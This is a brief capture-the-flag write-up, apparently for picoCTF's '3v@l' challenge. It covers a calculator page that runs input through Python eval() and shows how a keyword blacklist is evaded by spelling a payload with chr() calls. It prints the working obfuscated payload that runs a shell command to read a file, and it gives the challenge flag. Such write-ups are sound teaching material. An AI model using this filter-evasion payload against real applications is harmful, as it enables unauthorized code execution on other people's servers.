




## 3v@l



We are given a calculator webpage that runs our input against an `eval()` call in the backend.  



Going into the webpage source code, we can see the exact blacklist being implemented.  



Bypassing the keyword blacklist is pretty straightforward. We can simply use ASCII conversions to obfuscate our payload and achieve RCE.  

```python
# __import__('os').popen('cat ../flag.txt').read()
__import__(chr(111)+chr(115)).popen(chr(99)+chr(97)+chr(116)+chr(32)+chr(46)+chr(46)+chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)).read()

```

Submitting our payload then reveals the flag.  



Flag: `picoCTF{D0nt_Use_Unsecure_f@nctions463f23d8}`